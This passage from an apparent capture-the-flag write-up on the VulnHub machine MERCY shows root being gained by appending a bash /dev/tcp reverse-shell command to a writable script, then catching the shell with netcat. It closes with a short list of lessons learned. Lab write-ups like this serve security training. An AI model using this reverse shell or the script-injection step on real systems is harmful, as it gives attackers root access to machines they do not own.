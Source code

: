 ``
fluffy@MERCY:~/.private/secrets$ printf 'bash -i >& /dev/tcp/192.168.1.150/1235 0>&1\n' >> timeclock
``

Now it's wait for a shell:

{% highlight shell %}
root@kali:/opt/vulnhub/mercy# nc -nvlp 1235
listening on [any] 1235 ...
connect to [192.168.1.150] from (UNKNOWN) [192.168.1.169] 51992
bash: cannot set terminal process group (24445): Inappropriate ioctl for device
bash: no job control in this shell
root@MERCY:~# ls -lash
ls -lash
total 56K
4.0K drwx------  3 root root 4.0K Sep  1  2018 .
4.0K drwxr-xr-x 21 root root 4.0K Aug 27  2018 ..
4.0K drwx------  2 root root 4.0K Aug 24  2018 .aptitude
4.0K ----------  1 root root 1.3K Sep  1  2018 author-secret.txt
4.0K -rw-------  1 root root  204 Nov 20  2018 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Feb 20  2014 .bashrc
 20K -rw-r--r--  1 qiu  qiu   18K Dec 21 18:55 config
4.0K -rw-r--r--  1 root root  140 Feb 20  2014 .profile
4.0K ----------  1 root root   38 Aug 25  2018 proof.txt
4.0K -rw-r--r--  1 root root   66 Aug 26  2018 .selected_editor
root@MERCY:~# cat pro
cat proof.txt 
Congratulations on rooting MERCY. :-)
{% endhighlight %}

BOOM. 

## Epilogue
Learnings:

1. If SMB, run *enum4linux*
2. Use a short password list *first*, don't go straight to rockyou
3. Look at file permissions closely
